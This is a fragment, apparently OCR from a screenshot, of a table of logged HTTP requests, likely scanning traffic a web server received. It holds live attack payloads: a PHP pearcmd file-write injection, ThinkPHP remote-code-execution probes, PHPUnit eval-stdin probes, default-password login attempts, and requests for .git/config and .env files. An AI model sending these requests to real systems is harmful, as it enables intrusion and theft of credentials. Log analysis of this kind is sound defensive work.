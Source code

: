 |  53 |                     3 | GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?echo(md5(\x22hi\x22));?>+/tmp/index1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                   |
|  54 |                     3 | GET /public/index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
|  55 |                     3 | GET /index.php?s=/index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=Hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                    |
|  56 |                     3 | GET /app/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  57 |                     3 | GET /apps/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                         |
|  58 |                     3 | GET /login.cgi?username=admin&psd=1234 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                               |
|  59 |                     3 | GET /login.cgi?username=awnfibre&psd=fibre@dm!n HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                      |
|  60 |                     3 | GET /admin/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  61 |                     3 | GET /.env.template HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  62 |                     3 | GET /api/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  63 |                     3 | \x03\x00\x00+&\xE0\x00\x00\x00\x00\x00Cookie: mstshash=hello                                                                                                                                                                                                                                                                                                                                                                                                  |
|  64 |                     3 | GET /login.cgi?username=admin&psd=admin HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |